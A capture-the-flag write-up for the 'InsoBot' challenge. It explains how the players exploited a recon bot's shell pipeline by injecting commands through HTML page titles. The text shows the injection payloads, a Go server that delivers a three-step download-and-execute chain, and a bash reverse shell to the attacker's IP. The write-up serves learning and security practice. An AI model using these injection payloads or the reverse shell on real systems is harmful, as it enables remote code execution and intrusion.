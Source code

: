 # InsoBot (misc,network)

note: this writeup was written long after the actual CTF -
the platform was available only on the local on-site network, so some stuff might be a bit vague

### recon

in the description we don't get any files or links, only the info that someone's scanning the network.
after launching wireshark, we found a *ton* of ARP queries for the local network,
so after filtering those out, we were left with a handful of packets.
some of them were from the cisco switch we had on our desk, others from the fortinet hardware handling the network,
but after a while we noticed some incoming TCP packets:

![listing of packets, showing multiple TCP SYN to ports 9990, 9991 and 9992, with corresponding RSTs from us](insobot-wireshark.png)

we ran a simple HTTP server, and to our surprise, started getting valid HTTP requests:
```console
$ python3 -m http.server 9991
Serving HTTP on 0.0.0.0 port 9991 (http://0.0.0.0:9991/) ...
127.0.0.1 - - [03/Apr/2023 18:39:00] code 400, message Bad request version ('À\\x13À')
127.0.0.1 - - [03/Apr/2023 18:39:00] "\x16\x03\x01\x00î\x01\x00\x00ê\x03\x03#ÐO#\x04B\x9dä¯\x8c"Ó0\x0f3®À£\x10H\x0cEgkqeSÓìÂÙ! \x94J·u>\x98\x82\x1bÉ)OÍÛ\x88£\x85¹B\x0b\x89\x9dß\x1f0\x1f×c\x96TÎKë\x00&À+À/À,À0Ì©Ì¨À\x09À\x13À" 400 -
127.0.0.1 - - [03/Apr/2023 18:39:00] "GET / HTTP/1.1" 200 -
```

![http request in wireshark, showing a header X-tool pointing to github.com/GigaTakos/Reconator](insobot-wireshark-http.png)

### reading weird shell code

following to https://github.com/GigaTakos/Reconator, we find two shell scripts:
`main.sh`, which is less interesting:
```sh
# HACK THE WORLD
mapcidr -cidr 0.0.0.0/8 -o targets.txt

# <snip>

while true;
do 
	cat targets.txt	| parallel -j90 sudo docker run --rm reconator bash /opt/reconator.sh {}
done
```

and `reconator.sh`, that does all the heavy lifting:
```sh
# BUG BOUNTY RECON AWESOME ONLINER PIPELINE

cat <<EOF > services.txt
tcp:9990
tcp:9991
tcp:9992
EOF

echo "$1"
echo "$1" | /root/go/bin/httpx -nfs -H "X-tool: github.com/GigaTakos/Reconator" -p $(cat services.txt | awk -F ":" '{print $2}' | sort -u | tr '\n' ',' | sed 's/,$//') -silent -t 1 -json | jq -c '. | "bbrf url add '"'"'\(."url"|@sh) \(."status-code") \(."content-length")'"'"' -t last_update:$(date +%s) -t http_title:\(."title"[0:15]|@sh)"' | sed -E 's| null| 0|g' | sed 's/\\"//g' | xargs -I {} sh -c 'echo {}'
```

( there's also a dockerfile, but it's safe and not very interesting )

we noticed that while the inner script outputs `bbrf ...` commands, they're not being executed in the repo - the orgs didn't specify what's happening, so let's assume they're just being saved somewhere.

we can simplify the command a bit, replacing the convoluted `cat services.txt` subshell with what it returns and formatting it a little:
```sh
echo "$1" | \
    /root/go/bin/httpx -nfs \
        -H "X-tool: github.com/GigaTakos/Reconator" \
        -p "9990,9991,9992" \
        -silent -t 1 -json | \
    jq -c '. | "bbrf url add '"'"'\(."url"|@sh) \(."status-code") \(."content-length")'"'"' -t last_update:$(date +%s) -t http_title:\(."title"[0:15]|@sh)"' | \
    sed -E 's| null| 0|g' | \
    sed 's/\\"//g' | \
    xargs -I {} sh -c 'echo {}'
```

setting the quote crimes in `jq` aside, here's what's going on:
- [`httpx`][1] scans the selected host
- JSON results are being passed to `jq`, which picks the following arguments:
  + `.url`
  + `.status-code`
  + `.content-length`
  + `.title`
- nulls are getting replaced with zeroes
- quotes are getting unquoted..?
- all of that is getting passed to `sh -c 'echo ...'`

as for exploitation ideas - the target was obviously that `sh -c` command.
unfortunately, there wasn't much room for an exploit:
status code and content length were returned as ints, so we couldn't do any HTTP here;
the URL was the input one, redirects didn't change it, so... the only field we could reliably control was the title, parsed from HTML.

having that, we tried running the tool with the following HTML:
```html
<html><head><title>my very long page title</title>
```
and got expected results
```console
$ podman run --network=host --rm reconator bash /opt/reconator.sh 10.10.0.212
10.10.0.212
bbrf url add http://10.10.0.212:9991 0 0 -t last_update:1680542404 -t http_title:my very long pa
```

the shell escaping also worked, kinda:
```html
<html><head><title>$(id)</title>
```
```console
bbrf url add http://10.10.0.212:9991 0 0 -t last_update:1680542483 -t http_title:$(id)
```

we spent way too much time reading jq source code to see if we can get around the shell escaping, when suddenly:
```html
<title>'$(id)</title>
```
```console
sh: 1: Syntax error: Unterminated quoted string
```

...oh? let's try to terminate it then:
```html
<html><head><title>'$(id)'</title>
```
```console
bbrf url add http://10.10.0.212:9991 0 0 -t last_update:1680543290 -t http_title:\uid=0(root) gid=0(root) groups=0(root)\
```

we got shell exec! sadly, not very useful - the payload was still getting truncated at 15 characters,
so even using `\`\`` we had 11 characters left for our exploit
( technically, 33, as we could use 3 payloads - but each payload had to be contained in 11 characters ).

### golfing the payload

`wget 10.10.0.212` was definitely too long, but maybe we can make our IP shorter?
```console
$ doas ip addr flush dev eth0
$ doas ip addr add 10.10.0.6/16 dev eth0
$ ping 10.10.0.1
PING 10.10.0.1 (10.10.0.1) 56(84) bytes of data.
64 bytes from 10.10.0.1: icmp_seq=1 ttl=64 time=1.84 ms
```
😳

`wget 10.10.6`...one character too long!! decimal or hex notation wasn't shorter either...
at this point we were stuck - we even bought a short domain, only to realize that [outgoing 53 was blocked on the server][2] lol;
went through all the executables in the container, didn't find anything shorter than wget that could fetch a file

the breakthrough came from *dominikoso*, who suggested that maybe we could copy executables to the local directory,
thus allowing us to use a wildcard such as `wg*` to run it.. and it worked!

after refining the payloads a little, we ended up with the following:
- `cp /b*/w* .` to copy all executables starting with `w` to working directory
- `wg* 10.10.6` to download the index.html file, which was actually a script
- `bash *ml` to run it

there was one more drawback: the ports were queried in a random order; we wrote a small go server to handle that:
```go
package main

import (
	"fmt"
	"net/http"
)

var i = 0
var resps = []string{"cp /b*/w* .", "wg* 10.10.6", "bash *ml"}

func GenerateResp(x string) []byte {
	return []byte(`HTTP/1.1 200 OK
Content-Type: text/html
Connection: close

<html><body><title>'` + "`" + x + "`" + `'</title></body></html>

`)

}

func main() {
	handler := func(w http.ResponseWriter, r *http.Request) {
		fmt.Printf("writing resp %d to client %s as %s\n", i, r.RemoteAddr, r.Host)
		w.Write(GenerateResp(resps[i]))
		i++
		i %= 3
	}

	go http.ListenAndServe(":9990", http.HandlerFunc(handler))
	go http.ListenAndServe(":9991", http.HandlerFunc(handler))
	go http.ListenAndServe(":9992", http.HandlerFunc(handler))

	fmt.Println("runnning")

	select {}
}
```

the actual script was just a simple reverse shell (which had to be hosted on port `443` due to the previously mentioned server firewall):
```bash
#!/bin/bash
sh -i >& /dev/tcp/10.10.0.6/443 0>&1
```

after that, all it took was one `cat /flag/flag` and we finally solved the challenge!~

[1]: https://github.com/projectdiscovery/httpx
[2]: https://github.com/GigaTakos/Reconator/blob/main/README.md
